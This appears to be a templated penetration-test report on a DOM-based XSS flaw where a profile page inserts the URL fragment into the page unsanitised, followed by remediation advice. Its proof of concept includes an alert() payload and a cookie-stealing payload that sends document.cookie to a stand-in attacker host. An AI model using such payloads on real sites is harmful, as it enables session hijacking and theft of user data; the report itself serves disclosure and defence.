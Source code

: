 # Penetration Testing Writeup: DOM-Based XSS Vulnerability

## Executive Summary

A DOM-Based Cross-Site Scripting (XSS) vulnerability was identified in [Target
Application]’s client-side JavaScript code during a recent penetration test.
This vulnerability allows attackers to manipulate the DOM to execute malicious
scripts, potentially compromising user sessions or stealing sensitive data. This
report provides details, proof of concept, and remediation strategies.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - DOM-Based
- **Severity**: High
- **Affected Component**: Client-side JavaScript in the profile page
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/profile#username=[input]`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 18, 2025

### Description

The profile page uses JavaScript to parse the URL fragment (`#username`) and
directly inserts it into the DOM without sanitization. This allows attackers to
inject malicious scripts via the URL, which execute in the victim’s browser.

### Impact

- **Session Hijacking**: Attackers can steal session cookies.
- **Phishing**: Fake forms can capture user credentials.
- **Data Theft**: Sensitive profile data can be exfiltrated.
- **User Redirection**: Users can be redirected to malicious sites.

### Proof of Concept

1. Navigate to:
   `https://[target-application]/profile#username=<script>alert('DOM XSS');</script>`.
2. Observe an alert box with the message "DOM XSS".
3. A malicious payload:
   `#username=<script>fetch('https://attacker.com/steal?data='+document.cookie);</script>`.

### Steps to Reproduce

1. Open `https://[target-application]/profile`.
2. Append `#username=<script>alert('DOM XSS');</script>` to the URL.
3. Load the URL and verify the alert appears.

## Remediation Recommendations

1. **Sanitize DOM Inputs**:
   - Use libraries like DOMPurify to sanitize inputs before DOM insertion.
2. **Avoid Direct DOM Manipulation**:
   - Refrain from using `innerHTML` or similar methods; use `textContent`
     instead.
3. **Content Security Policy (CSP)**:
   - Apply a strict CSP: `Content-Security-Policy: script-src 'self';`.
4. **Code Review**:
   - Review client-side scripts to ensure safe handling of URL fragments.
5. **Security Testing**:
   - Perform regular testing to identify DOM-based XSS issues.

## Conclusion

The DOM-Based XSS vulnerability in [Target Application] poses a significant
risk. Immediate remediation is necessary to protect users and ensure application
security.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![DOM XSS Example](https://example.com/images/dom-xss-example.png)
